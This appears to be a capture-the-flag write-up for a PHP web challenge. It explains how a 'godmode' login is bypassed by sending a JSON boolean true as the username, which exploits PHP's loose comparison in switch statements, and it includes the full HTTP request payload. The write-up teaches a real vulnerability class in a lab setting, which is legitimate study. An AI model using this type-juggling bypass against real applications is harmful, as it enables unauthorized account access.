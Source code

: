 # Godmode user

If we want to get login as the `godmode` user , we must somehow fail this if check (line [1] section 1)

```php
!in_array($_SERVER['REMOTE_ADDR'], ['127.0.0.1', '::1'])
```
There is no way to spoof the ip in this case, if they were getting the client ip from headers such `X-Real-Ip` or something then we would have been able to add this header to our request and set it's value to `127.0.0.1` to make condition return false (NOT operator).


If there was some sort of parameter pollution bug here, which would return something else here so that the condition returns false
```php
$req->username === 'godmode'
```

And then here in the switch case it returns the `godmode` username, but sadly that's not possible here.

# Switch case (loose comparison)

Looking at the docs of the switch statement:
https://www.php.net/manual/en/control-structures.switch.php

Under a note section, it mentions that *Note that switch/case does loose comparison.*

Challenge Author's note:

![chrome_4pcIpU7hvJ](https://user-images.githubusercontent.com/31372554/188317819-bef4a10f-387d-40a7-8a68-1b2be3744549.png)

```php
php > echo  0 == "godmode";
1
php > echo  true == "godmode";
1
```


Cool, so now to solve the challenge we need to provide `true` for username value

```
POST / HTTP/1.1
Host: web1.2022.cakectf.com:8005
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 38
Origin: http://web1.2022.cakectf.com:8005
Connection: close
Referer: http://web1.2022.cakectf.com:8005/


{"username":true,"password":"admin"}
```

Then visit the /admin.php endpoint and you will get the flag:

![image](https://user-images.githubusercontent.com/31372554/188317678-a165f8c7-4634-4a89-9c45-8bd3dacdcabd.png)